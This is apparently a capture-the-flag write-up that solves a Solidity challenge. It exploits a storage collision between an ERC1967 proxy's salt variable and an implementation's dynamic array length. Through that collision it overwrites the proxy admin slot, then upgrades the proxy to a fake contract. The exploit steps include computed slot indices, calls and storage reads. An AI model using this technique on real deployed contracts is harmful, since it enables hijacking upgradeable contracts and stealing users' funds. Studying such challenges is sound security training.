 # Broken Storage [0 solve] [500 points]

![](https://i.imgur.com/kdn319a.png)

I discovered this CTF event on the last hour, and I solved this challenge 4 min after the CTF end 🥲

### Description
```
Storage is almost infinite, isn't it?

Deploy Details:
{
  "Buckets": [
    "0x95bD8D42f30351685e96C62EDdc0d0613bf9a87A"
  ],
  "BucketsProxy": [
    "0x98eDDadCfde04dC22a0e62119617e74a6Bc77313"
  ],
  "OpenZeppelin/openzeppelin-contracts@4.5.0/Address": [],
  "OpenZeppelin/openzeppelin-contracts@4.5.0/ERC1967Proxy": [],
  "OpenZeppelin/openzeppelin-contracts@4.5.0/ERC20": [],
  "OpenZeppelin/openzeppelin-contracts@4.5.0/StorageSlot": []
}
Private RPC URL:
https://ctf.nahamcon.com/challenge/38/0a2f6c1c-3f11-419a-90e0-9fb978d93a6c
Mnemonic:
test test test test test test test test test test test junk
```

The objective of this challenge is to change the admin of the proxy and make the balance of admin become 0x1337

### challenge.py : 
```python
from brownie import *


def restricted_accounts():
    return [accounts[8]]

def deploy():
    ADMIN = accounts[8]
    buckets = Buckets.deploy({'from': ADMIN})
    bucketsProxy = BucketsProxy.deploy(buckets, 5, {'from': ADMIN})
    
def solved():    
    ADMIN = accounts[8]
    proxy_buckets = Contract.from_abi("Buckets", BucketsProxy[-1], Buckets.abi)

    if BucketsProxy[-1].getAdmin() != ADMIN and proxy_buckets.balanceOf(ADMIN) == 0x1337:
        return True, "Solved!"
    else:
        return False, "Not solved."

CONFIG = {
    # "RPC": '',
    # "BLOCK_NUMBER": '',
    # 'FLAGS': '',
    'MNEMONIC': 'test test test test test test test test test test test junk',
    # 'RUNNABLES': [],
    # 'ALLOWED_RPC_METHODS': []
}
```

### Buckets.sol : 
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

abstract contract BucketsBase {
    uint256[] public buckets;
}

contract Buckets is BucketsBase, Initializable, ERC20 {
    uint256 private constant MAX_BUCKETS = 10;

    constructor() ERC20("Buckets", "Bucket") {}

    function initialize(uint256 premint) external initializer {
        buckets = new uint256[](MAX_BUCKETS);

        buckets[0] = premint;
        _mint(msg.sender, premint);
    }

    // put some ether in a bucket and mint bucket tokens
    function deposit(uint256 bucketNumber, uint256 value) external payable {
        buckets[bucketNumber] += value;
        _mint(msg.sender, value);
    }

    // withdraw some ether from a bucket and burn bucket tokens
    function withdraw(uint256 bucketNumber, uint256 amount) external {
        buckets[bucketNumber] -= amount;
        _burn(msg.sender, amount);
    }
}
```

### BucketsProxy.sol : 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import "./Buckets.sol";

contract BucketsProxy is ERC1967Proxy {
    // a secret to change the proxy admin in case of an emergency
    // e. g. if the original admin dies
    uint256 public salt;

    constructor(address logic, uint256 premint) ERC1967Proxy(logic, abi.encodeWithSelector(Buckets.initialize.selector, premint)) {
        _changeAdmin(msg.sender);
    }

    // a failsafe admin has a secret address derived from the 256bit secret
    // we allow the method to be called by anyone to not to reveal secret failsafe addresses
    function setFailsafeAdmin(uint256 salt_) external {
        require(salt_ != 0, "SALT_CANNOT_BE_ZERO");
        salt = salt_;
    }

    // only the address that matches the secret should be able to run this method
    // this method should be called in emergency cases when the original administrator has disappeared
    function changeAdmin() external {
        require(keccak256(abi.encode(salt, msg.sender)) == keccak256(abi.encode(_getAdmin())));
        _changeAdmin(msg.sender);
    }

    // upgrade the Buckets implementation
    function upgradeTo(address newImplementation) external {
        require(_getAdmin() == msg.sender, "ADMIN_ONLY");
        _upgradeTo(newImplementation);
    }

    function getAdmin() external view returns(address){
        return _getAdmin();
    }
    
}
```

BucketsProxy.sol will be the proxy and Buckets.sol will be the implementation

There is a storage collision on slot 0, the proxy is using it for the uint256 `salt`, and it can be changed to any uint256 value except 0 by anyone using `setFailsafeAdmin()`, and the implementation is using it for the uint256 array `buckets`

```solidity
    function setFailsafeAdmin(uint256 salt_) external {
        require(salt_ != 0, "SALT_CANNOT_BE_ZERO");
        salt = salt_;
    }
```

As `buckets` is an dynamic array, the length of it is stored on slot 0, and we can change the length of `buckets` to any value using `setFailsafeAdmin()` due to the storage collision


Then just call `setFailsafeAdmin(115792089237316195423570985008687907853269984665640564039457584007913129639935)` to the proxy contract, which will change the length of `buckets` to the maximum value so the `deposit()` and `withdraw()` function on the implementation can alter storage slot that it shouldn't be able to

```soldiity
    function deposit(uint256 bucketNumber, uint256 value) external payable {
        buckets[bucketNumber] += value;
        _mint(msg.sender, value);
    }

    // withdraw some ether from a bucket and burn bucket tokens
    function withdraw(uint256 bucketNumber, uint256 amount) external {
        buckets[bucketNumber] -= amount;
        _burn(msg.sender, amount);
    }
```

The proxy is using ERC1967Proxy : 
https://eips.ethereum.org/EIPS/eip-1967#admin-address

The admin address is stored on slot `0xb53127684a568b3173ae13b9f8a6016e243e63b6e8ee1178d6a717850b5d6103`

```python
>>> web3.eth.get_storage_at('0x98eDDadCfde04dC22a0e62119617e74a6Bc77313', 0xb53127684a568b3173ae13b9f8a6016e243e63b6e8ee1178d6a717850b5d6103)
HexBytes('0x00000000000000000000000023618e81e3f5cdf7f54c3d65f7fbc0abf5b21e8f')
```

We want to change it to our address `0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266`, by adding a number to it using `deposit()` to the specific `bucketNumber`

First, find out the amount need to be added
```python
>>> 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 - 0x00000000000000000000000023618e81e3f5cdf7f54c3d65f7fbc0abf5b21e8f
1188859032378941226414648521226496738097503863767
```

Then we have to find out the element of the array which will be stored on the same storage slot for admin

As `buckets` is a dynamic array and in slot 0, the first element will be at the keccak256 hash of 0

```python
>>> web3.keccak(int(0).to_bytes(32, 'big')).hex()
'0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563'

>>> web3.eth.get_storage_at('0x98eDDadCfde04dC22a0e62119617e74a6Bc77313', 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563)
HexBytes('0x0000000000000000000000000000000000000000000000000000000000000005')
```

2nd element will be at the keccak256 hash of 0 plus 1, 3rd element will be plus 2, and so on

The admin address is stored at `0xb53127684a568b3173ae13b9f8a6016e243e63b6e8ee1178d6a717850b5d6103`, so just find out which element will be on the same slot

```python
>>> 0xb53127684a568b3173ae13b9f8a6016e243e63b6e8ee1178d6a717850b5d6103 - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563
63386042604410164362045476879090279004621706715927965350536461637453372554144
```

Then just call `deposit(63386042604410164362045476879090279004621706715927965350536461637453372554144, 1188859032378941226414648521226496738097503863767)`, which will change the admin slot to our address, this will work because we have already changed the length of `buckets` to the maximum

```python
>>> web3.eth.get_storage_at('0x98eDDadCfde04dC22a0e62119617e74a6Bc77313', 0xb53127684a568b3173ae13b9f8a6016e243e63b6e8ee1178d6a717850b5d6103)
HexBytes('0x000000000000000000000000f39fd6e51aad88f6f4ce6ab8827279cfffb92266')
```

After we become the admin of the proxy, we can just deploy another contract as implementation, which will return the balance of admin as `0x1337`, and change it to the implementation of the proxy with `upgradeTo()`

```solidity
pragma solidity ^0.8.0;

contract fake {
    function balanceOf(address) public view returns(uint256) {
        return 0x1337;
    }
}
```

Then the challenge is solved